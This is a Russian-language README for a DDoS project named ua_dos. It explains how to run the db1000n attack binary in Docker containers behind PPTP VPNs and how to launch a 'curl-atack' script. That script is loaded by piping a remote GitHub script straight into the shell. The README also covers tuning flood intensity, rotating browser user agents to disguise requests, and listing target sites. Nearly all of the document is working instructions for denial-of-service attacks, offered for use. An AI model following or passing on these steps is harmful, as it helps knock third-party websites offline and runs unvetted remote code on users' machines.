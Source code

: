 # ua_dos
## Docker
Внутри докера запускается pptp vpn соединение и бинарник db1000n проекта https://github.com/Arriven/db1000n.
Нужно создать файлы конфигурации pptp в директории: `ansible/confign/files/vpn1...*` и файл паролей `ansible/confign/files/chap-secrets`.

Пример файла `vpn1`:
```
pty "/usr/sbin/pptp hostvpn1 --loglevel 0 --nolaunchpppd"
lock
noauth
nobsdcomp
nodeflate
name uservpn1
remotename vpn1
ipparam vpn1
persist
maxfail 0
holdoff 10
```
Здесь задаются: `hostvpn1` - IP адрес, или домен vpn сервера; `uservpn1` - имя пользователя pptp подключения; `vpn1` - названия vpn подключения.

Пример файла `chap-secrets`:
```
# Secrets for authentication using CHAP
# client        server  secret                  IP addresses
uservpn1 vpn1 "passwordvpn1" *
...
uservpn* vpn* "passwordvpn*" *
```
Здесь задаются:`uservpn1` - имя пользователя pptp подключения;`passwordvpn1` - пароль pptp подключения; `vpn1` - названия vpn подключения.

При сборке image эти файлы забираются внутрь.

Собирается image командой:
```
docker image build --force-rm -t ua_dos:0.1 .
```
После чего нужно создать network ipvlan типа:
```
docker network  create -d ipvlan --subnet=192.168.0.0/24 -o parent=wlo1 gwnet
```
Здесь `192.168.0.0/24` - сеть, которую раздает wifi роутер (С помощью которой хостовая машина подключена к интернету); `wlo1` - название wifi интерфейса в ноутбуке (На котором выше описаная сеть от роутера); `gwnet` - название новосозданной сети docker.
Эту информацию можно посмотреть в выводе команды `ifconfig` на хостовой машине (В данном случае ноутбук).

Запуск контейнера можно осуществлять двумя способами:
 1. В интерактивном режиме:
```
docker run --name node1 --privileged --net=gwnet --ip 192.168.0.2 -it ua_dos:0.1 vpn1
```
 2. В режиме демона:
```
docker run --name node2 --privileged --net=gwnet --ip 192.168.0.3 -d ua_dos:0.1 vpn1
```
Где `vpn1` - название vpn подключения, которое будет инициировано при запуске контейнера. `--ip 192.168.0.3` - IP адрес который будет присвоек запускаемому контейнеру (Должен быть из ранее созданной сети `--subnet=192.168.0.0/24`)
Настроить проброс ssh пока не получилось.

## Legacy
Атака `ntct` заброшена, с `curl-atack` можно работать.

1. Создай файл с любым названием *(Например: "curl-atack")*.
2. Запиши в файл две строки:
```
#!/bin/bash
source <(curl -Ls https://raw.githubusercontent.com/bro2020/ua_dos/main/curl-atack)
```
3. Сделай файл исполняемым, выполнив команду:
```
chmod +x "название файла"
(Например: chmod +x curl-atack)
```
4. Запусти файл:
```
./"название файла"
(Например: ./curl atack)
```
Загрузка таргетов пошла, через несколько секунд отобразится информация, которая будет обновляться.

Для остановки на клавиатуре зажать `Ctrl+C`. При этом завершаться **ВСЕ** процессы curl запущенные в операционной системе!

Если хочешь переопределить параметры, для увеличения/уменьшения интенсивности и увеличения/уменьшения нагрузки на оборудование ...

1. Создай файл `curl-atack-env.txt`
2. Запиши в него следующие строки:
```
rcount=$((RANDOM%10+7)) # количетво итераций, после которого принудительно завершаются процессы curl
sq1=$((RANDOM%3+1)) # количество параллельно выполняемых циклов
sq2=$((RANDOM%3+2)) # количество прогонов в каждом из параллельных циклов (1 итерация)
t1=$((RANDOM%7+7)) # таймают перед принудительным завершением процессов curl)
t2=$((RANDOM%2+1)) # таймаут(скорость) запуска проходов в параллельно выполняемых циклах
t3=$((RANDOM%3+1)) # таймаут после завершения всех проходов в параллельных циклах
t4='15' # таймаут автоматического непрерывного завершения процессов curl в каждом проходе

UA1='Mozilla/5.0 (Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA2='Mozilla/5.0 (Macintosh; Intel Mac OS X 12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA3='Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA4='Mozilla/5.0 (Linux; Android 10) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.78 Mobile Safari/537.36'
UA5='Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0'
```
3. Меняй их по вкусу. Сюда же можно вписать свои таргеты в виде задания переменных:
```
H1='http://target.ru'
...
H50='https://target.ru'
```
